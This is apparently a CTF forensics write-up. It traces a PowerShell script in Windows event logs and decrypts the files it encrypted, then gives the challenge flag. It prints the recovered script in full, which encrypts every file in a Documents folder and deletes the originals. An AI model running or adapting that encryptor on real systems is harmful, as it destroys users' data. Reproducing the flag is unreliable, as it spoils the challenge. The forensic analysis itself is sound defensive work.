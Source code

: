 ## Find the powershell script executed in the system : 

searching for powershell in the log files we will find 3 log files responsible for logging powershell events, we will be interested in the first which is `Microsoft-Windows-PowerShell%4Operational.evtx` since it logs the scripts executed in the system

[![image.png](https://i.postimg.cc/qMFqBM8G/image.png)](https://postimg.cc/4mzsBG2K)

double click on it and it will be opend using powershell event viewer

searching for event id responsible for logging executed powershell scripts

[![image.png](https://i.postimg.cc/brcXVWbk/image.png)](https://postimg.cc/tZ5mYrB4)

so let's filter based on the `event id 4104`

[![image.png](https://i.postimg.cc/0NywLVmB/image.png)](https://postimg.cc/LJG5PBxt)

but we have a lot of entries to search through let's filter by `warning event level`

[![image.png](https://i.postimg.cc/Vvg1QWXK/image.png)](https://postimg.cc/0Kzh7mWS)

scrolling down the entries until we find an intereting script and just in the beginning the second entry contains very interesting information

[![image.png](https://i.postimg.cc/zDV9J58J/image.png)](https://postimg.cc/nMfdkyX5)

let's copy the script

```powershell
function encryptFiles {
    Param(
        [Parameter(Mandatory=$true, Position=0)]
        [string] $baseDirectory
    )

    foreach ($File in (Get-ChildItem $baseDirectory -Recurse | Where-Object { -not $_.PSIsContainer })) {
        if ($File.extension -ne ".enc") {
            $DestinationFile = $File.FullName + ".enc"
            $FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
            $FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
            $cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
            $cipher.key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
            $cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
            $cipher.GenerateIV()
            $FileStreamWriter.Write([System.BitConverter]::GetBytes($cipher.IV.Length), 0, 4)
            $FileStreamWriter.Write($cipher.IV, 0, $cipher.IV.Length)
            $Transform = $cipher.CreateEncryptor()
            $CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
            $FileStreamReader.CopyTo($CryptoStream)
            $CryptoStream.FlushFinalBlock()
            $CryptoStream.Close()
            $FileStreamReader.Close()
            $FileStreamWriter.Close()
            Remove-Item -LiteralPath $File.FullName
        }
    }
}

encryptFiles -baseDirectory "C:\Users\azer\Documents\"
```

we can see that the script contains all informations needed to decrypt the files encrypted. we have the key and also the iv

asking chatgpt for generating a decryption function it provides this code for us

```powershell
function decryptFiles {
    Param(
        [Parameter(Mandatory=$true, Position=0)]
        [string] $baseDirectory
    )

    foreach ($EncryptedFile in (Get-ChildItem $baseDirectory -Recurse | Where-Object { -not $_.PSIsContainer -and $_.Extension -eq ".enc" })) {
        $DestinationFile = $EncryptedFile.FullName -replace '\.enc$'

        $EncryptedStreamReader = New-Object System.IO.FileStream($EncryptedFile.FullName, [System.IO.FileMode]::Open)
        $DecryptedStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)

        $cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
        $cipher.Key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")

        # Read the IV length and IV from the encrypted file
        $IVLengthBuffer = New-Object byte[](4)
        $EncryptedStreamReader.Read($IVLengthBuffer, 0, 4)
        $IVLength = [System.BitConverter]::ToInt32($IVLengthBuffer, 0)

        $IV = New-Object byte[] $IVLength
        $EncryptedStreamReader.Read($IV, 0, $IVLength)

        $cipher.IV = $IV
        $cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        $Transform = $cipher.CreateDecryptor()

        $CryptoStream = New-Object System.Security.Cryptography.CryptoStream($DecryptedStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
        $EncryptedStreamReader.CopyTo($CryptoStream)

        $CryptoStream.FlushFinalBlock()
        $CryptoStream.Close()
        $EncryptedStreamReader.Close()
        $DecryptedStreamWriter.Close()

        Remove-Item -LiteralPath $EncryptedFile.FullName
    }
}

decryptFiles -baseDirectory "C:\Users\azer\Documents\"
```

so now what we need to do is provide the image at any baseDirectory we want and it will be decrypted

[![image.png](https://i.postimg.cc/nV4wVLNf/image.png)](https://postimg.cc/Wt47Xs25)

```
decryptFiles -baseDirectory "C:\Users\azer\Documents\decryptimage\"
```

let's open the powershell ISE where we can write our decryption script

[![image.png](https://i.postimg.cc/nzH9v0Vk/image.png)](https://postimg.cc/Jy2h83kD)

now let's run the script by clicking on the green start button 

[![image.png](https://i.postimg.cc/c48CtVMW/image.png)](https://postimg.cc/56bbZKRK)

and we have got the flag

[![image.png](https://i.postimg.cc/rphRN5d2/image.png)](https://postimg.cc/GBypc8JX)

## Flag : 

```
DEFENSYS{l3ak3d_k3y_m2d3_d3crypt1on_t0t2lly_3asy}
```

